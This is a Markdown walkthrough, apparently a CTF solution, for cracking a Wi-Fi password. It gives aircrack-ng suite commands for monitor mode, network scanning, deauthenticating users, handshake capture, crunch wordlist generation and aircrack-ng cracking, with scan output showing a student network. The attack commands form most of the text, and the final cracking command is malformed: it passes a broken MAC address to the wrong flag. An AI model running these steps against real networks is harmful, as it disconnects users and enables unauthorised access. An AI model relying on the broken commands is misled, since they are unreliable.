

# CTF: WIFI Password Cracker Solution

## Overview

This document provides a step-by-step guide to crack a WIFI password using various tools. This is intended for educational purposes and should only be used on networks you have permission to test.

## Tools Required

- `iwconfig`: To check network interfaces.
- `airmon-ng`: To enable monitor mode.
- `airodump-ng`: To capture network traffic.
- `aireplay-ng`: To deauthenticate users.
- `aircrack-ng`: To crack the WIFI password.
- `crunch`: To create a wordlist (optional).

## Steps

### 1. Check Network Interface

First, identify the network interfaces available on your system.

```sh
iwconfig
```

### 2. Switch to Monitor Mode

Enable monitor mode on the desired network interface.

```sh
airmon-ng start wlan0

iwconfig
```

**Example Output:**

```text
lo        no wireless extensions.

br-d212c57f6d84  no wireless extensions.

br-314938f5e24  no wireless extensions.

docker0   no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.427 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 3. Check for Open Network Connections

Scan for available networks.

```sh
airodump-ng wlan0mon
```

**Example Output:**

```text
[CH  3 ][ Elapsed: 1 min ][ 2024-11-07 23:29] 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER 

 AUTH

 ESSID

 B0:BE

:

 76:EB:BE:E4   -1        0        0    0   1   -1                    <length:  0>                            
 E6:63:DA:6E:9D:05  -16        0        0    0  11  130   OPN              XXX_Student_WiFi                        
 48:E6:63:A3:03:C5  -25        1        0    0   5  720   WPA3 CCMP   SAE  low_2.4G.the101_UMJK                    
 E6:63:DA:6E:9C:D2  -86        1        6    1  11  130   OPN              XXX_Student_WiFi                                                   
...

 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes

 E6:63:DA:6E:9F:80  F6:A0:6D:74:FF:9C  -71    6e- 1e     0      275                                                 
 E6:63:DA:6E:9F:80  7A:2E:14:F4:C1:4D  -29    0 - 1      0        7         XXX_Student_WiFi     
...
```

### 4. Monitor Traffic to a Specific Network Channel

Capture traffic on a specific channel and BSSID.

```sh
airodump-ng -c CHANNEL_ID --bssid CHANNEL_BSSID -w /root wlan0mon
```

### 5. Deauthenticate a User from the Network Channel

Send deauthentication packets to a user on the network.

```sh
aireplay-ng --deauth DEAUTH_COUNT -a CHANNEL_BSSID wlan0mon
```

### 6. Capture the Handshake

The handshake is captured during the monitoring process. Ensure you have captured the handshake before proceeding to crack the password. The handshake file is typically saved with a `.cap` extension.

**Example Output:**



### 7. Create a Wordlist

If you do not have a wordlist, you can create one using tools like `crunch`.

```sh
crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -o wordlist.txt
```

This command generates a wordlist with all possible combinations of 8 characters using the specified character set. You can also get some good wordlists to extend to from this [link](https://github.com/TebogoYungMercykay/Thousands_Of_Resources_Related_To_H4cking/tree/master/cracking_passwords/more_wordlists).

### 8. Crack the WIFI Password with Your Wordlist

After capturing the handshake, use a wordlist to crack the password.

```sh
sudo aircrack-ng -a 272:9A:0C:44:4A:82 -w wordlist.txt handshake.cap
```

## Notes

- Ensure you have the necessary permissions to perform these actions on the network.
- This guide is for educational purposes only.

---
---
